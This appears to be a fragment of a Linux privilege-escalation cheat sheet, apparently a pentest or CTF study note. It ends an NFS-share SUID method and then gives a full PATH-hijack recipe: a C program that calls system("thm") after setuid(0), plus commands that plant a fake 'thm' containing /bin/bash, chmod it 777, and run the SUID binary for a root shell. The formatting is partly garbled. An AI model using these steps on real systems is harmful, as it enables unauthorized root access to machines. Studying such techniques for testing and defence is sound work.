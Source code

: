     - get back to Target machine You will see below that both files (nfs.c and nfs are present on the target system. We have worked on the mounted share so there was no need to transfer them).

    - run the binary and get Root access
        - ``./home/backup/nfs`` > `id`

###### PATH writable folder

Conditions Required
    - There should be a file wih SUID permission created by root user.
    - This file should be executing some other file of which absolute path is not mentioned , therfore it will look for PATH vairable for this file
        ```
        ┌──(root㉿kali)-[/home/kali/Desktop]
        └─# `cat testelf_code.c` 
        #include<unistd.h>
        void main (){
        setuid(0);
        setgid(0);
        system("thm");
        }
        ```
    - you should have write privileges to folder in PATH
    - you can then create `thm` file in that folder  put malicious code in it
    ```
    ┌──(user㉿kali)-[/tmp]
    └─$ `echo "/bin/bash" > thm`
    ```
    - you can then give it rwx permission
        - ``chmod 777 thm``
    - further you can execute the SUID binary and get root access
        - ``./testelf` > `id`

